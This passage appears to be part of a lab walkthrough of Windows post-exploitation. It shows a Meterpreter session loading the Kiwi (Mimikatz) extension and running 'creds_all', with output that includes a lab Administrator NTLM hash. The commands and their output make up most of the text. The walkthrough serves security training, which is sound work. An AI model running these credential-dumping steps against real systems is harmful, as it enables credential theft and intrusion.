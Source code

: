 ### **Step 2: Load Kiwi Extension**

**What We're Doing:** Adding Mimikatz functionality to our Meterpreter session

#### **Command Used:**
```bash
load kiwi
```

#### **What Happened:**
```bash
meterpreter > load kiwi
Loading extension kiwi...
.#####.   mimikatz 2.2.0 20191125 (x64/windows)
.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ##       > http://blog.gentilkiwi.com/mimikatz
'## v ##'        Vincent LE TOUX ( vincent.letoux@gmail.com )
 '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

#### **🔍 What This Output Shows:**
- **Extension loaded successfully** - Kiwi is now available
- **Mimikatz 2.2.0** - Shows the version of underlying Mimikatz
- **Success message** - Ready to use credential extraction commands
- **Author information** - Credits to Mimikatz creator Benjamin Delpy

#### **Available Commands Now:**
After loading Kiwi, we get access to dozens of new commands for credential extraction, all starting with specific prefixes like `creds_`, `lsa_`, `kerberos_`, etc.

---

### **Step 3: Extract All Available Credentials**

**What We're Doing:** Running comprehensive credential collection to get all possible authentication data

#### **Command Used:**
```bash
creds_all
```

#### **🎉 Success! What Happened:**
```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain          NTLM                            SHA1
--------       ------          ----                            ----
Administrator  ATTACKDEFENSE   e3c61a68f1b89ee6c8ba9507378dc88d  fa62275e30d286c09d30d8fece82664eb34323ef

wdigest credentials
===================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
ATTACKDEFENSES  WORKGROUP      (null)
```